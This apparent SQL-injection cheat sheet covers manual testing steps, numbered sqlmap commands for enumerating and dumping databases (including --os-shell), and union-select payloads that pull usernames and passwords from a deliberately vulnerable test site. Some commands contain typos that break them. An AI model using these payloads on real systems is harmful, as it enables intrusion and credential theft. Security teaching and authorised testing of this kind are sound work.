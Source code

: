 # SQLmap
 SQL is a standard language for accessing and manipulating databases.
     SQL stands for Structured Query Language
    SQL lets you access and manipulate databases
    SQL became a standard of the American National Standards Institute (ANSI) in 1986, and of the International Organization for Standardization (ISO) in 1987
    
How to test for SQL injection 👇

1) Select params for testing in:

🔹 URL query
🔹 POST body
🔹 Headers
🔹 Cookies

It can be any parameter. Typically, I test integer parameters first.

2) Perform math if the tested field is an integer:

🔹 user_id=1338-1

If there is a sign of an SQL injection, you will see a result with user_id=1337.

3) Try to add symbols at the end of the parameter:

🔹 ' (single quote)
🔹 " (double quote)
🔹 ; (semicolon)

Observe the response status. If you spot an error response, there might be a chance of SQL injection.

4) Try to add another symbol and see if the error disappears

🔹 login=admin (status: 200)
🔹 login=admin' (status: 500)
🔹 login=admin'' (status: 200)

In SQL the escape character for a single quote is another single quote, and for a double quote is another double quote

5) Perform SQL query functions

Int
🔹 user_id=1337 AND 1=1 (status: 200)
🔹 user_id=1337 AND 2=1 (status: 500)

Text
🔹 login=admin' AND 'A'='A (status: 200)
🔹 login=admin' AND 'A'='B (status: 500)

JSON int
🔹 {"user_id":"1337 AND 1=1"} (status: 200)

6) Combine SQL query functions with comments

Int
🔹 user_id=1337 AND 1=1 -- (status: 200)

Text
🔹 login=admin' AND 'A'='A' -- (status: 200)

JSON int
🔹 {"user_id":"1337 AND 1=1 --"} (status: 200)

JSON text
🔹 {"login":"admin' AND 'A'='A' --"} (status: 200)

7) Use Tools to test vulnerable params further

🔹 sqlmap
🔹 r0oth3x49/ghauri (github)

Remember that you only need to obtain the database version for the initial Proof of Concept (POC). Further exploitation should be tested only with permission from the program/company

8) You can use the following DB Fiddle to experiment with SQL injection points and behavior.

Edit SQL queries on the right and then click RUN to see how the SQL queries are executed and what results are displayed at the bottom.

https://lnkd.in/d9j6sawD    
    
 
# Overview 

- Techniques     |     -u        
- Crawl         |     --forms
- Enumeration   |     --data
- Batch         |     --headers
- Risk          |     --user-agent
- Level         |     --cookie
- Threads       |     --flush-session
- Verbosity     |     --output-dir
- Proxy         |     --tamper
- SQL Injection Via Burp-Suite

# Techniques 

* B: Boolean-based blind
* E: Error-based
* U: Union query-based
* S: Stacked queries 
* T: Time-based blind
* Q: Inline queries 
   --technique-"B"

# Crawl

* Depth 1: http://www.example.com/news
* Depth 2: http://www.example.com/news/newest/
* Depth 3: http://www.example.com/news/newest/terror/
* Depth 4: http://www.example.com/news/newest/terror/country/
     --crawl 3
     
# Verbosity
* 0: show only python tracebacks, error and critical messages.
* 1: show also information and warning messages.
* 2: show also debug messages.
* 3: show also payloads injected.
* 4: show also HTTP requests.
* 5: show also HTTP responses'headers.
* 6: show also HTTP responses'page content
     
# Kali linux   ( command ) 

1.  sqlmap -u http://www.example.com/ --crawl 2 
2.  sqlmap -u http://www.example.com/ --crawl 3 --batch 
3.  sqlmap -u http://www.example.com/ --crawl 3 --technigue="U"                ( U = union )
4.  sqlmap -u http://www.example.com/ --crawl 2 --batch --threads 5            ( 1 to 10 )
5.  sqlmap -u http://www.example.com/ --crawl 2 --batch --risk 2               ( 1 to 3 )
6.  sqlmap -u http://www.example.com/ --crawl 2 --batch --level 1              ( 1 to 5 )
7.  sqlmap -u http://www.example.com/ --crawl 3 --batch -v 4                   ( 0 to 6 )
8.  sqlmap -u http://www.example.com/listproducts.php?cat=? --current-user --current-db --hostname --batch     ( vulnerable website link )
9.  sqlmap -u http://www.example.com/listproducts.php?cat=? --dbs              ( all data base details )
10. sqlmap -u http://www.example.com/listproducts.php?cat=? -D ( avl. database name ) --tables 
11. sqlmap -u http://www.example.com/listproducts.php?cat=? -D ( avl. database name ) -T ( avl. tables name ) --dump
12. sqlmap -u http://www.example.com/listproducts.php?cat=? -D ( avl. database name ) -T ( avl. tables name ) --columns 
13. sqlmap -u http://www.example.com/listproducts.php?cat=? -D ( avl. database name ) --dump-all
14. sqlmap -u http://www.example.com/ --crawl 2 --output-dir="home/ghost/desktop/sql/" --batch
15. sqlmap -u http://www.example.com/ --crawl 2 --headers="Referer:abc.com" -v 4 --batch
16. sqlmap -u http://www.example.com/ --crawl 2 --user-agent="GECKO_CHROME" -v 4 --batch
17. sqlmap -u http://www.example.com/ --crawl 2 --mobile -v 4 
18. sqlmap --list-tempers
19. sqlmap -u http://www.example.com/ --crawl 2 --tamper=base64encode -v 3 --batch

# BRUTE FORCE LOGIN PAGE
* first we need url of login page 
* than we need username && password && login we need to find the value of username , password , login [ by using inspect ].
* for eg username value is going with uname && password value is going with pass && login value is going with submit.
* also we need to check the username && password && login case value is going with userinfo.php 
* sqlmap -u http://www.example.com/login.php --forms         (next step first cat the sql save data)
* sqlmap -u http://www.example.com/userinfo.php --data="uname=abc&pass=abc&login=submit" --dbs

# PROXY
* sqlmap -u http://www.example.com/ --crawl 2 --proxy="127.0.0.1:8080"      ( then go to burp suite )

# Highlights
* --cookie
* --flush-session
* --comment
* --os-shell
* --os-cmd

# Manually 
1. http://testphp.vulnweb.com/
2. http://testphp.vulnweb.com/listproducts.php?cat=1'           ( we use malicious payload )
3. http://testphp.vulnweb.com/listproducts.php?cat=1 order by 11--+
4. http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,2,3,4,5,6,7,8,9,10,11--+
5. http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,database(),3,4,5,6,7,8,9,10,11--+
6. http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,database(),3,4,5,6,7,8,version(),10,11--+
7. http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,database(),3,4,5,6,table_name,8,version(),10,11 from information_schema.tables--+
8. http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,database(),3,4,5,6,column_name,8,version(),10,11 from information_schema.columns where table_name="users"--+
9. http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,database(),3,4,5,6,group_concat(uname,pass),8,version(),10,11 from users--+


eg :-)

1. ' union select username, password from users--+
2. '+UNION+SELECT+NULL,username||'~'||password+FROM+users--
3. '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--





